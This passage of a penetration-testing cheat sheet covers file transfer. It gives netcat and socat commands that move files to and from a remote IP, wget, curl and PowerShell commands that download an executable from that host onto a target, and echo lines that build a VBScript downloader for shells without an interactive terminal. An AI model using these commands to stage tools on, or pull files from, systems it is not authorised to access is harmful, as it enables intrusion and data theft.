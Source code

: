 ## File Transfer <a name="filetransfer"></a>

### Netcat <a name="netcat"></a>
```bash
# Receiver
nc -nlp 8080 > file.zip

# Sender
cat file.zip | nc 10.1.1.1 8080
nc 10.1.1.1 < file.zip
```
### Socat <a name="socat"></a>
```bash
# Sender
socat TCP4-LISTEN:8080,fork file:file.zip

# Receiver
socat TCP4:10.1.1.1:8080 file:file.zip,create
```

### HTTP <a name="http"></a>
```bash
# Start HTTP server
python -m SimpleHTTPServer 80
python3 -m http.server 80

# Download from Linux
wget http://10.1.1.1/file.exe
curl http://10.1.1.1/file.exe -o file.exe

# Download from Windows powershell
Invoke-WebRequest -Uri http://10.1.1.1/file.exe -OutFile file.exe
(New-Object System.Net.WebClient).DownloadFile('http://10.1.1.1/file.exe','C:\Windows\Temp\file.exe')

# Build wget.vbs in non interactive Windows shells
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```